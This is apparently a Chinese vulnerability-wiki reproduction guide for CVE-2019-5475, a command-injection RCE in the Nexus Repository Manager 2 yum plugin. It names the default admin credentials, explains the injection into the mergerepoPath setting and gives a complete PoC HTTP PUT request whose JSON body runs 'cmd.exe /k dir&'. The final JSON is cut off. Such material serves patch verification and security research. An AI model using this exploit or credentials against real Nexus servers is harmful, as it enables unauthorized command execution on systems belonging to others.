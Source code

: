 （CVE-2019-5475）Nexus2 yum插件RCE漏洞
======================================

一、漏洞简介
------------

该漏洞默认存在部署权限账号，成功登录后可使用"createrepo"或"mergerepo"自定义配置，可触发远程命令执行漏洞

二、漏洞影响
------------

Nexus Repository Manager OSS \<= 2.14.13 Nexus Repository Manager Pro
\<= 2.14.13 限制：admin权限才可触发漏洞

三、复现过程
------------

首先以管理员身份（admin/admin123）登录 然后找到漏洞位置：Capabilities -
Yum:Configuration - Settings

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-5475)Nexus2yum插件RCE漏洞/media/rId24.png)

点击 Save 抓包，更改mergerepoPath后的value值

    C:\\Windows\\System32\\cmd.exe /k dir&

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-5475)Nexus2yum插件RCE漏洞/media/rId25.png)

此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c
后执行完会退出；由于给用户提供的命令后面加了一个
\--version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc如下：

    PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
    Host: 127.0.0.1:8081
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    X-Nexus-UI: true
    Content-Type: application/json
    X-Requested-With: XMLHttpRequest
    Content-Length: 241
    DNT: 1
    Connection: close
    Referer: http://127.0.0.1:8081/nexus/
    Cookie: NXSESSIONID=105c7cb1-a307-43a3-9ff8-9770b5ae3b13






    {"typeId":"yum","enabled":true,"properties":[{"key":"maxNumberParallelThreads","value":"10"},{"key":"createrepoPath","value":"111"},{"key":"mergerepoPath","value":"C:\\Windows\\System32\\cmd.exe /k dir&"}],"id":"00012bdb034073a3","notes":""
